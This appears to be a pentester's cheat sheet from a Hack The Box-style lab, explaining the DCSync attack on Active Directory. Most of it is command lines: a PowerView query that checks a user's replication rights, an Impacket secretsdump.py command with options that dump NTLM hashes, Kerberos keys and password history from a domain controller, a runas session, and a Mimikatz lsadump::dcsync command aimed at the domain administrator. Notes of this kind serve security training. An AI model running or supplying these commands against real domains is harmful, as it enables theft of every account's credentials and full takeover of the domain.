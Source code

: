 
```
DCSync is a technique for stealing the Active Directory password database by using the built-in `Directory Replication Service Remote Protocol`, which is used by Domain Controllers to replicate domain data. This allows an attacker to mimic a Domain Controller to retrieve user NTLM password hashes.
```

DCSync replication can be performed using tools such as Mimikatz, Invoke-DCSync, and Impacket’s secretsdump.py.

Check users Replication Rights
```
Import-Module ./Powerview.ps1

$sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"

Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
```

Extracting ntlm hashes and kerberos tickets
```shell-session
secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5
```
 `-just-dc-ntlm` flag if we only want NTLM hashes or specify `-just-dc-user <USERNAME>`
`-pwd-last-set` to see when each account's password was last changed and `-history` if we want to dump password history
`-user-status` is another helpful flag to check and see if a user is disabled

Create powershell session with user privileges
```cmd-session
runas /netonly /user:INLANEFREIGHT\adunn powershell
```

Using mimikatz
```powershell-session
PS C:\htb> .\mimikatz.exe

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
```


